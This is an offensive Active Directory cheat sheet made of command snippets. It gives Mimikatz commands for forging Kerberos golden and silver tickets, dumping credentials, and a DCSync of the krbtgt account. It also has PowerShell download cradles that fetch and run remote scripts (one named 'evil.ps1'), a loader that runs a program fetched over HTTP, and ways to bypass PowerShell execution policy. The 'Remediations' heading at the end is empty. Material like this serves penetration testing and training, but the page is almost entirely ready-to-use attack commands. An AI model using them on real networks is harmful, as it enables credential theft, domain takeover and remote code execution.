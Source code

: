 ### Golden Ticket

```
kerberos::golden /user:WHATEVER /domain:DOMAIN /sid:DOMAIN-SID /aes256:AESKEY-KRBTGT /startoffset:0 /endin:600 /renewmax:10080 /ptt
```

### Silver Ticket

```
kerberos::golden /user:Administrator /domain:DOMAIN /sid:DOMAIN-SID /target:TARGET-FQDN /service:SERVICE /aes256:AESKEY-TARGET /startoffset:0 /endin:600 /renewmax:10080 /ptt
```

+ HOST -> schedule task
+ HOST,HTTP -> WinRM/PSRemoting
+ HOST,RPCSS -> WMI
+ CIFS -> file access
+ LDAP -> DCSync

## Creds

```
sekurlsa::ekeys
lsadump::dcsync /user:DOMAIN\krbtgt
```

## File transfer

### Download cradle

```
iex(New-Object System.Net.WebClient).DownloadString('https://webserver/payload.ps1')
iex(iwr'http://192.168.230.1/evil.ps1')
```

### xcopy+Loader

```
echo F | xcopy C:\AD\Tools\Loader.exe \\DOMAIN\COMPUTER\C$\SHARE\Loader.exe
Loader.exe -path http://SERVER/PROGRAM.exe
```

## Execution Policy

```
powershell -ExecutionPolicy bypass
powershell -c <cmd>
powershell -encodedcommand <b64u16cmd>
$env:PSExecutionPolicyPreference="bypass"
```

# Remediations
